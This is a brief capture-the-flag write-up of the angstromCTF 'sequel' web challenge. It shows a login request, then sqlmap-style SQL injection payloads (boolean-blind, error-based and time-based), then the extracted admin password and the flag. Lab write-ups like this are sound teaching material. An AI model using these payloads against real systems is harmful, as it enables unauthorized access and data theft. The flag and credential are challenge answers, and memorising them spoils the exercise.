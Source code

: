 ### Solved by rasta_mouse

```
I found what looks like a Star Wars sequel fan club, but I believe the admin user is up to something more nefarious. Can you log in with the admin account and check it out?
```

Another login page.

![](/images/2018/angstromctf/web/sequel.png)

This form is vulnerable to SQLi.

```
POST / HTTP/1.1
Host: web2.angstromctf.com:2345
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web2.angstromctf.com:2345/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

```
Parameter: username (POST)
	Type: boolean-based blind
	Title: OR boolean-based blind - WHERE or HAVING clause
	Payload: username=-7273' OR 8629=8629-- rAqT&password=test

	Type: error-based
	Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=test' OR (SELECT 6502 FROM(SELECT COUNT(*),CONCAT(0x7162627171,(SELECT (ELT(6502=6502,1))),0x717a716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- cIGu&password=test

	Type: AND/OR time-based blind
	Title: MySQL >= 5.0.12 OR time-based blind
	Payload: username=test' OR SLEEP(5)-- wtln&password=test
```

We can use this to extract the admin credentials: `admin:idontlikesandbutisuredoliketheprequels`.

Then login to get the flag.

`actf{sql_injection_more_like_prequel_injection}`